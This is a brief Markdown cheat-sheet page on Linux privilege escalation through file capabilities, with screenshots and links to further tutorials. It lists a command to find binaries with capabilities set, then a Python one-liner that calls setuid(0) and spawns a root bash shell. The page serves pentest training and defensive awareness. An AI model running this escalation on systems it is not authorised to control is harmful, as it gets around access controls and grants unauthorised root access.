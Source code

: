 # Capabilities

- Similar to suid but more secure.

## Enumeration

- `getcap -r / 2>/dev/null`

## Exploitation

- In our example the command to enumerate gave us `/usr/bin/python2.6`  
![image](https://user-images.githubusercontent.com/96747355/170370598-258880d0-3303-4866-b4bb-46f7191b1542.png)
- We just need to run python with a command that will give us root `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`  
![image](https://user-images.githubusercontent.com/96747355/170371855-bdbbd738-2525-4f94-9232-0371c543cc58.png)  

## Resources

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/" %} Linux Privilege Escalation using Capabilities {% endembed %}
{% embed url="https://mn3m.info/posts/suid-vs-capabilities/" %}SUID vs Capabilities {% endembed %}
{% embed url="https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099" %}Linux Capabilities Privilege Escalation {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} TCM Security - Linux Privilege Escalation {% endembed %}
